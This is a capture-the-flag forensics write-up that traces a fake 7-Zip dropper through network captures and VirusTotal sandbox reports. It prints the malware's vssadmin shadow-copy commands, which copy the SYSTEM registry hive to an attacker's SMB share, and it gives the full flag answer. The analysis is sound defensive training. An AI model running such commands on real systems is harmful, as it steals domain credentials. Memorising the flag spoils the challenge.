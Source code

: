You can download this challenge here : [deepescape.zip](challenges/deepescape.zip)

```
Everything seemed quiet on the meridion.tech domain network... until the SOC detected suspicious activity on the domain controller. Your role: inspect the network traffic and trace the chain of events.

You have all the pieces of the puzzle in this dump. It’s up to you to reconstruct the attack…

Archive password : deepescape

Here are the several flag components :

    1. The spoofed website
    2. The name of the malicious binary
    3. Attacker's IP
    4. The first exfiltrated file
    5. The second exfiltrated file
    6. The path of the attacker's remote folder
    7. The password
    8. The technique used by the binary to exfiltrate files

Format : MCTF{1:2:3:4:5:6:7:8} (case insensitive)
Example: MCTF{www.google.com:malware.exe:192.168.1.1:logs.txt:hosts:\\192.168.1.1\mails\MAILSERVER\:P@$$sw0rd:TechniqueName}
```

First I will use Network Miner in order to get a global view on this capture (files/credentials...)

In order to find what website was spoofed (and I supposed that the binary was downloaded from the malicious website), I will check every executable present in this capture and send them to [https://www.virustotal.com](https://www.virustotal.com) and see if it detects something suspicious, I found 2 executables :

![alt text](note/ctf/Midnight_2025/asset/deepescape0.png)

Let's put them into VirusTotal and see which one is malicious!

![alt text](note/ctf/Midnight_2025/asset/deepescape1.png)

It seems that `7z2409-x64.exe` is suspicious... and if we look at the details in Network Miner, we can see that it comes from `www.7-zip.org` so this is the spoofed website. But who spoofed it? Let's see in the DNS section which IPs are associated with this domain.

![alt text](note/ctf/Midnight_2025/asset/deepescape2.png)

Okay so 192.76.28.19 and 192.76.28.1 appear, but which one is the attacker IP we are looking for? Well, there are a lot of ways of finding it, here is one:

We go on Wireshark and search for protocols that manage remote folders (like SMB/SMB2) and by applying the filter smb2 we find this! :

![alt text](note/ctf/Midnight_2025/asset/deepescape3.png)

So the attacker IP is 192.76.28.19 and if we continue to analyze the SMB2 protocol we find the files that the attacker extracted :

![alt text](note/ctf/Midnight_2025/asset/deepescape4.png)

Okay, the files are ntds.dit and SYSTEM and they are extracted into `\\192.76.28.19\work\DC01\` now I need to find the password used for the extraction.

My first thought was to crack the NTLMv2 hash with rockyou.txt (you can find it with Network Miner in the credentials section or can just build it with Wireshark packet) but brute-force didn't work so I had to find another way.

If the malware extracted those files, it might contain the password right? Also, why lose time doing reverse when the behavior analysis from [https://www.virustotal.com](https://www.virustotal.com) can tell you a lot of info by executing this malware? [https://www.virustotal.com/gui/file/17a5512e09311e10465f432e1a093cd484bbd4b63b3fb25e6fbb1861a2a3520b/behavior](https://www.virustotal.com/gui/file/17a5512e09311e10465f432e1a093cd484bbd4b63b3fb25e6fbb1861a2a3520b/behavior)

If we go into the Files written section we find this: C:\Users\user\AppData\Local\Temp\firefox\_bundle\payload.exe

A payload named payload.exe is written... interesting! It means that 7z2409-x64.exe is only a dropper so our target is that payload.exe!

If we go into the file drop section we can find the sha256 of payload.exe (it will allow us to enter it into VirusTotal and analyze it), let's enter the sha256 of this payload and launch a behavior analysis! [https://www.virustotal.com/gui/file/409947e013b06cd8adc9f34b9f2a0ba11cca37ffc7c476740c73b1d91e6fd00c/behavior](https://www.virustotal.com/gui/file/409947e013b06cd8adc9f34b9f2a0ba11cca37ffc7c476740c73b1d91e6fd00c/behavior)

The Shell commands section contains a lot of info!

![alt text](note/ctf/Midnight_2025/asset/deepescape5.png)

The password is : `MyThreatPassword123+` and everything we got is confirmed! The IP `192.76.28.19`, the remote folder `\\192.76.28.19\work\DC01\`, the 2 files (ntds.dit and SYSTEM) and even the technique used :

```shell
%ComSpec% /c copy "\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM" "\\192.76.28.19\work\DC01\SYSTEM" >nul
%ComSpec% /c vssadmin create shadow /for=C: >nul 2>&1
%ComSpec% /c vssadmin list shadows
%SAMPLEPATH%
vssadmin create shadow /for=C:
vssadmin list shadows
```

This way of exfiltrating data has a specific name: it's a Shadow Copy exfiltration so the technique used is `ShadowCopy`

We got everything to flag this!

`MCTF{www.7-zip.org:7z2409-x64.exe:192.76.28.19:ntds.dit:SYSTEM:\\192.76.28.19\work\DC01\:MyThreatPassword123+:ShadowCopy}` 